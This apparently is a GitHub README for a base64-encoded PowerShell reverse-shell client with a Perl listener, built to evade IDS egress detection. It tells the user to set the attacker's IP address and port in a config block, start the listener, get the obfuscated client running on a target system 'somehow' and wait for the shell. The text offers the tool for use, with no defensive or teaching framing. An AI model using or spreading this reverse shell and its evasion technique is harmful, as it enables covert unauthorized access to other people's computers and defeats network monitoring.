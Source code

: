 # b64 tcp client 

Provides a variant of the tcp powershell client that encodes the TCP traffic with custom base64 
encoding. This should help evade some IDS egress detection methods without having to resort 
to using SSL, Webserver, C2, blah, blah, blah...

Just a system that can run Perl :D 

To use start the Perl listener [->] ./b64-tcp-handler.pl [ specify port to listen on ]

Edit the b64-tcp-client.ps1 script, see below 

```
      ##################[ CONFIG CONNECTION ]####################

	       #[->] Enter the ip address and port information here

	      $IPAddress = '192.168.0.15'  # [->] Change this example
	      $Port = '443'        	       # [->] Change this example 

      ###########################################################

```

Get the client to execute on target system somehow, "gen-obfuscated" and wait for your shell.
